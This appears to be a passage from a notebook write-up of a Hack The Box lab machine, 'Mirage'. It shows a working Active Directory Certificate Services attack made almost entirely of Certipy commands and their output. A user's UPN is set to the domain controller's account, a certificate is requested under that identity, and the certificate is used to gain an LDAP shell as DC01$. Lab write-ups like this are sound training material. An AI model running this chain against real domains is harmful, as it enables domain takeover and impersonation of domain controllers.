 
```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache certipy account update -dc-host dc01.mirage.htb -target dc01.mirage.htb -user 'mark.bbond' -k -upn 'dc01$@mirage.htb'
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'mark.bbond':
        userPrincipalName                   : dc01$@mirage.htb
    [*] Successfully updated 'mark.bbond'



```python
!rm *.pfx
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache certipy req -k -target dc01.mirage.htb -template 'User' -ca mirage-DC01-CA
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
    [*] Requesting certificate via RPC
    [*] Request ID is 10
    [*] Successfully requested certificate
    [*] Got certificate with UPN 'dc01$@mirage.htb'
    [*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
    [*] Saving certificate and private key to 'dc01.pfx'
    [*] Wrote certificate and private key to 'dc01.pfx'



```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache certipy account update -dc-host dc01.mirage.htb -target dc01.mirage.htb -user 'mark.bbond' -k -upn 'mark.bbond@mirage.htb'
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'mark.bbond':
        userPrincipalName                   : mark.bbond@mirage.htb
    [*] Successfully updated 'mark.bbond'



```python
!certipy auth -pfx 'dc01.pfx' -dc-ip 10.129.194.106 -ldap-shell
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Certificate identities:
    [*]     SAN UPN: 'dc01$@mirage.htb'
    [*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
    [*] Connecting to 'ldaps://10.129.194.106:636'
    [*] Authenticated to '10.129.194.106' as: 'u:MIRAGE\\DC01$'
    Type help for list of commands
    
    # Bye!
    